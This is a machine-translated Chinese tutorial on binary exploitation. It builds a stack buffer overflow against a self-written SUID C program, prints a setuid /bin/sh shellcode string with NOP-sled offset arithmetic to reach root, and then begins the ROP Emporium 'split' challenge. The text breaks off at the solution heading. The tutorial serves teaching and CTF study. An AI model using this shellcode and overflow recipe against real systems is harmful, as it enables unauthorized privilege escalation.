# 进入二进制开发的艺术 0x 000002[ROP 的魔法]

> 原文：<https://infosecwriteups.com/into-the-art-of-binary-exploitation-0x000002-sorcery-of-rop-b4658238ee62?source=collection_archive---------0----------------------->


黑客经常把他们的工作描述为精力充沛、富有想象力的解决问题。

嘿黑客们，✋✋

我带着“二进制开发”系列中的下一篇文章回来了。我已经为未使用过的人打开了进入这种开发技术的入口。因此，我在过去的文章中体面地确保了简单的步骤，使这个主题变得平常&这将是继续。因此，如果你没有得到滥用技巧的智慧，在你得到[第一部分(0x000001](https://7h3h4ckv157.medium.com/into-the-art-of-binary-exploitation-0x000001-stack-based-overflow-50fe48d58f10) )后仔细检查这个。

# **越陷越深**

一些我们在过去的文章中忽略的东西是“根”。毫无疑问！我在举例说明超级用户。在 Linux 中，没有 root 我们什么都做不了。 **SUID** 二进制滥用通过设置 SUID 位来固化二进制。代表“**集合所有者用户 Id** ”。通常是应用于脚本或应用程序的例外授权。如果设置了 SUID 位，那么在运行该命令时，它的实际 UID 将成为记录所有者的 UID，而不是运行它的用户的 UID。因此，程序执行的任何操作都将与该用户一起执行。

**如果我们在超级用户下面误用了一个二进制文件，会发生什么？？**


我们开始吧

作为一个例子，我现在制作了一个可执行的二进制文件，它可以通过命令

> find/-perm-u = s-type F2 >/dev/null



可执行二进制(32 位)

源代码粘贴在下面。显然，这是那个可执行二进制文件“vuln”的源代码。如果你不介意，毫无疑问，这是我自己作为一个案例公平地做出的。你们中的一些人现在会明白，但这对澄清新人是公平的。

```
/** Written in C **/ #include<string.h> 
#include<stdio.h>   
#include<stdlib.h>   

void abracadabra(char *fun) {   
    char data[400];   
    strcpy(data,fun); 
    printf("copied..!!");    
}   

int main(int argc, char* argv[]) {   
    if (argc != 2) {    
        printf("No input provided..!");   
        return 1;   
    }   
    abracadabra(argv[1]);    
    return 0;   
}/** end **/
```

如果我们没有提供任何输入，这段代码将被执行。

> 如果(argc！= 2) {
> printf("未提供输入..!");
> 返回 1；
> }



未提供输入..！

argv[1]是指向所提供的主要命令行参数的指针。提供的输入被传递给函数 abracadabra，并被复制到一个 400 的测量缓冲区中。

> 1)abracadabra(argv[1])；
> 
> 2)void abracadabra(char * fun){ char data[400]；strcpy(数据，好玩)；printf("复制..！!");
> }



复制

通常，这足以详细说明它是如何工作的。但是您注意到这段简单代码中的漏洞了吗？？如果你了解我过去的报道，你就会知道我在做什么。它非常简单&协调。与真实世界的插图相比，这种情况被强烈地重新安排。大多数工作框架和编译器都有一些默认的亮点来预测缓冲区溢出。标准计算机上的严重安全问题通常是一个美丽可怕的想法。因此，我将做这个演示，以公平对待这篇文章本身。


分段故障

**strcpy** 内置函数不检查缓冲区长度，可能会非常好地覆盖与预期目的地相邻的存储区。如果该程序作为 set-root-uid 程序运行，普通用户可以利用此缓冲区溢出漏洞并接管 root 权限。整个函数家族:strcpy、strcat 和 strcmp 同样容易受到攻击。让我们从汇编级别深入研究一下代码。我利用 python 脚本 fair 来分析实际的内存崩溃区。



**python exploit.py > exp**

**exp** 可以通过广发，分析 EIP。请记住，EIP 是 32 位进程的指令指针或程序计数器，而 RIP 是 64 位进程的指令指针或程序计数器。在过去的文章中，我指定了 64 位(RIP)。



0x65616164 = d a a e(小端)

目前这项工作很简单。现在，我们可以通过稍微修改脚本来计算估计值。



412

412 是 eip 之前容量还是基本公平的一个虚拟边界？以下位将溢出到 eip 中。即 412 + 4 ('d' 'a' 'a' 'e') = 416。

我过去常常从网上找到一个合适的外壳代码 estimate 53。

```
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
```



容量(412)-外壳代码(53)

我们将把 359 张 NOP 载玻片放入堆栈。在计算机安全学中，NOP 滑动可以是 NOP(无操作)指令的排列，暗示着将 CPU 的指令执行流“滑动”到它的最后&渴望的目标。我们将 NOP 幻灯片放在外壳代码之前来填充缓冲区。



图形视图

NOP 幻灯片(359) +外壳代码(53) + eip (0xffffcd90)

> 溢出发生在 EIP 到我们在堆栈结束时给出的地址的改变中。该地址集中在执行 NOP(无操作)的堆栈本身。最后，它会到达外壳代码，这将执行！！



利用代码😈😈😈

**在没有任何安全评估的情况下，我们将一键切换到机器的超级用户..！！**😈



**机器受损**


是啊…！！我们做到了

> 但是这还没有结束…！现在，是时候迎接另一个挑战了

从技术的角度来看，我们将理解来自 **ROP 商场**的一个基本挑战。这次是 64 位。


挑战名称:[分裂](https://ropemporium.com/challenge/split.html)

> 为了找到旗子，我们必须转移行刑流程。

下载并运行程序后，很明显它会询问用户输入。在我们提供输入/不提供的情况下，结果确实是相同的，输出显示在下面



输出

为了创建执行流程的思维导图，我已经通过 gdb 运行了这个程序。通过快速浏览指令，我们能够得到程序的预期流程。



pwnme 函数

在分析了二进制文件之后，我发现执行是通过函数“pwnme”进行的。



西格夫

然后我换了 radare2



pwnme

> 注意:-你不应该依赖于一个特定的工具或策略来深究案件。这是我个人的结论，因为接触每一部分会让你在未来面对不同的环境时有所不同。

很明显，我接下来的步骤就是跳入 pwnme 函数。



阅读()

好了，很明显输入是从这一部分开始的。我们能不能滥用这个…？？


嗯嗯…



分段故障

# 就像我们已经做的，我们能在栈上注入外壳代码吗？？

> 简短回答:没有
> 
> 但是为什么呢？
> 
> 在基于堆栈的缓冲区溢出利用的情况下，攻击者通常控制堆栈的一部分。在获得对程序计数器的控制权后，攻击者继续在堆栈上执行攻击者控制的信息(外壳代码)会非常有帮助，这是可以想象的，如果**堆栈是可执行的**。

# **如果我告诉你“没有人”使用可执行堆栈会怎么样？？**

# 不可执行堆栈[NX]

NX 是一种虚拟内存保护机制，通过限制特定内存和实现 NX 位来阻止外壳代码注入在堆栈上执行。以前被利用的二进制文件不太安全。



NX 已启用

> NX 赋能！

带有 NX 位支持的操作系统可能会将内存的某些区域标记为**不可执行**。然后，处理器将拒绝执行驻留在这些内存区域中的任何代码。将内存区域标记为不可执行意味着代码不能从该内存区域运行，这使得利用缓冲区溢出更加困难。当 NX 位打开时，我们处理基于堆栈的缓冲区溢出的经典方法将会被滥用。这足够残酷到我们什么都做不了吗..？剥削的行动结束了吗..？？？

> ***黑客永不退出！！***


> 现在…我要教你一些魔法。是的……我们要变些魔术。

# 面向返回的编程(ROP)

面向返回的编程(ROP)是一种安全误用策略，攻击者利用它在目标系统上执行代码。通过获得对调用堆栈的控制，攻击者可以控制计算机上运行的现有可信计算机程序流，并将其控制到底。它的思想是用堆栈控制将汇编的小片段链接在一起，使程序做更复杂的事情。ROP 将程序中已经存在的以 ret 指令结尾的代码片段(小工具)缝合在一起。这些小玩意通过 mov，pop 等来获取他们的论点。因此，在攻击者能够在主 ROP 小工具的地址内重写最初存储在堆栈上的返回地址的情况下，攻击者能够链接许多这样的小工具以执行他们需要的任何代码来获得对系统的控制。在某种程度上，在 ROP 中，堆栈指针充当指令指针，每个小工具末尾的 ret 指令导致跳转到另一个 ROP 小工具，这类似于普通程序。

> 那么，我们如何利用这一策略呢？很简单…先列举，后利用。我不喜欢鼓励我的读者。在某些情况下，你也需要努力去得到我想要的。

通过使用对象哑函数“objdump ”,我能够检查几个字符串&通过仔细阅读“flag.txt”记录，它有助于理解排列本身。在雷达 2 的帮助下，我能够发现它清晰的视野。



0x00601060

之前，我主要检查了每条指令，确认程序没有调用任何与这个“flag.txt”相关的东西。它也不在任何函数中。那么，我们如何阐明这一挑战呢？？

更努力地列举…

通过分析可用的功能，我发现了一个奇怪的问题。一个名为“有用函数”的函数有系统调用。它确认客户端参数。



有用功能

# 解决办法

